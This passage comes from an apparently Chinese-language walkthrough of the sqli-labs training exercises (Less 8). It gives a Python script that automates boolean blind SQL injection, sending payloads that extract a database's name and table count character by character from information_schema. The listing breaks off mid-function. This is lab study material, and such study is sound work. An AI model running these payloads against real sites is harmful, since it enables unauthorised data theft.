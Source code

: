 不过根据页面正确输入显示you are in，错误显示空白，所以也可以使用盲注的方法。

脚本见Less 8

## Less 8

先查看闭合方式

根据页面正确输入显示you are in，错误显示空白，所以可以使用盲注的方法。

跑出来的结果（部分）

![image-20241124143636606](https://s2.loli.net/2024/11/24/EvdujHSO3sbYPQ8.png)

![image-20241124143732042](https://s2.loli.net/2024/11/24/tEUCdLQ8XMsWbDR.png)

```
import requests

global url
url=
global chars
chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_@!#.-"


def send_payload(payload):
    r=requests.get(url+payload)
    r.encoding="utf-8"
    if "You are in..........." in r.text:
        return True
    return False

#库名长度
def get_database_name_length():
    length=0
    while True:
        payload=f"-1' OR(select length(database())={length}) --+" #这里1'and 也可以是-1'or 或者'or
        if send_payload(payload):
            print("数据库名长度为",length)
            return length
        length += 1

#库名
def get_database_name(length):
    database=""
    for i in range(1,length+1):
        for char in chars:
            payload=f"-1'or ascii((select substr(database(),{i},1)))={ord(char)} --+"
            if send_payload(payload):
                database=database+char
                #print("数据库名为",database)
                break
    print("数据库名为", database)
    return database

#获取表数量
def get_tables_num(database):
    table_num=0
    while True:
        #print(table_num)
        payload = f"-1' OR((select count(table_name) from information_schema.tables where table_schema='{database}')={table_num}) --+"  # 这里1'and 也可以是-1'or 或者'or
        if send_payload(payload):
            print("表数量为", table_num)
            return table_num
```